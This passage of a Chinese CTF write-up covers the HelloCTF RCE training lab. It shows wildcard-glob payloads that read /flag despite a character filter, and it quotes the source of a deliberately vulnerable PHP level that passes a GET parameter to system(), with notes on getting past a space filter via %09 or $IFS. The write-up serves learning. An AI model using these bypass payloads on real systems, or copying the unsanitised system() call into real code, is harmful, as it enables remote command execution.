 ```php
?>
```

> 禁用了小写 b 到 z，大写 A 到 Z，_  @  # % ^  &  *  :  {  }  -  +  <  >  "  |   '  ;  [  ]  
>

注意没有禁用小写 a

猜测 flag 在根目录下

同时了 linux 命令都放在 bin 目录下

可以构造

> /bin/cat  /flag
>
> /bin/base64 /flag
>

模糊匹配一下，如下

```php
/?cmd=/???/?a? /??a?
/?cmd=/???/?a??64 /??a?
```

会匹配到很多东西，搜索一下就好了

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737289864293-5276f36b-e432-45e3-9069-077938dbe31d.png)

## Level 7  空格过滤  
```php
 <?php 
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 命令执行 - 终端特殊字符 --- 

在遇到空格被过滤的情况下，通常使用 %09 也就是TAB的URL编码来绕过，在终端环境下 空格 被视为一个命令分隔符，本质上由 $IFS 变量控制，而 $IFS 的默认值是空格、制表符和换行符，所以我们还可以通过直接键入 $IFS 来绕过空格过滤。


*/

function hello_shell($cmd){
    if(preg_match("/flag| /", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>

```
